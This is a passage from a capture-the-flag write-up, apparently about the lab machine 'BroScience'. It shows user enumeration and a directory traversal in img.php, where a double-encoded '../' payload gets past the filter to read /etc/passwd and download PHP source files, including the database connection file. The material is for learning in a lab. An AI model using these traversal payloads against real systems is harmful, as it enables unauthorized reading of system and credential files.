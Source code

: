 #### Exploration
I tried registering but there was no way to intercept the activation link. Then I explored the resulting paths from the directory discovery. The `includes` and `user.php` appeared interesting. On checking the `user.php` I encounter an error `Missing ID value`. Tried the user.php again with parameter key `id`  using values 1 through 5 which return some user detail but no credential or anything juicy. 
```shell
curl -s -k https://broscience.htb/user.php?id=1 | html2text
<<SNIP
BroScience
    * Log_In
****** administrator ******
  Member since
      4 years ago
  Email Address
      administrator@broscience.htb
  Total exercises posted
      3
  Total comments posted
      1
  Is activated
      Yes
  Is admin
      Yes
SNIP
```
In the includes path all the files therein displayed an empty page except for img.php which requested a `path` parameter. Tried this path again with the parameter key `path` and value `../../../etc/passwd`. This threw an error `Attack detected`. This application could possibly be vulnerable to [Directory Traversal](https://www.invicti.com/learn/directory-traversal-path-traversal/). Added the host to scope, then crawl and audited it with Burp. And tried variations of this [payload](https://github.com/payloadbox/rfi-lfi-payload-list). This payload `%252e%252e%252f` a double encoding of `../` as identified with burpsuite looked promising as it did not return 'Error: Attack detected.'. After several trials, double encoded `../../../../etc/passwd` and dumped the contents of the file. While researching, found and installed a [urlencoder/urldecoder utility](https://www.urlencoder.net/linux-urlencode) which helped with the double encoding process. 
```shell
curl -sk 'https://broscience.htb/includes/img.php?path=../../../etc/passwd' | html2text
#--snip--#
Error: Attack detected.

curl -sk https://broscience.htb/includes/img.php?path=$(urlencode $(urlencode ../../../../etc/passwd)) | grep sh$     # get the users with shell
#-snip-#
root:x:0:0:root:/root:/bin/bash
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash

# let's exfiltrate the interesting files in the includes directory
curl -k https://broscience.htb/includes/img.php?path=$(urlencode $(urlencode ../includes/db_connect.php)) -o db_connect.php    # get the db_connect file

curl -k https://broscience.htb/includes/img.php?path=$(urlencode $(urlencode ../includes/img.php)) -o img.php    # get img file

curl -k https://broscience.htb/includes/img.php?path=$(urlencode $(urlencode ../includes/utils.php)) -o utils.php    # get utils file

```
